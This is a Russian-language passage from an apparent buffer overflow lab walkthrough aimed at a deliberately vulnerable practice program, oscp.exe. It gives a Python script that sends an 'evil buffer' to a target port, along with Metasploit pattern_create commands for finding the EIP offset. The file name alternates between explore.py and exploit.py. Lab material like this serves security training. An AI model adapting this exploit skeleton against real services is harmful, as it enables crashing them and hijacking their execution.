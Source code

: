 Фаззер будет отправлять все более длинные строки, состоящие из A. Если фаззер вызывает сбой сервера с одной из строк,
фаззер должен выйти с сообщением об ошибке. Запишите наибольшее количество отправленных байтов. 

Репликация сбоев и контроль EIP

Создайте еще один файл на компьютере с Kali под названием explore.py со следующим содержимым:

```commandline
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```


Выполните следующую команду, чтобы создать циклический шаблон длиной на 400 байт больше, чем строка, вызвавшая сбой 
сервера (измените значение -lна это): 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

Если вы используете AttackBox, используйте следующий путь pattern_create.rb(не забудьте также изменить -l значение):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Скопируйте вывод и поместите его в переменную payload скрипта explore.py.

В Windows, в Immunity Debugger, снова откройте oscp.exe, используя тот же метод, что и раньше, и щелкните красный 
значок воспроизведения, чтобы запустить его. Вам придется делать это перед каждым запуском Exploit.py (который мы 
запустим несколько раз с постепенными изменениями).  

На Kali запустите измененный скрипт `explore.py:python3 exploit.py`
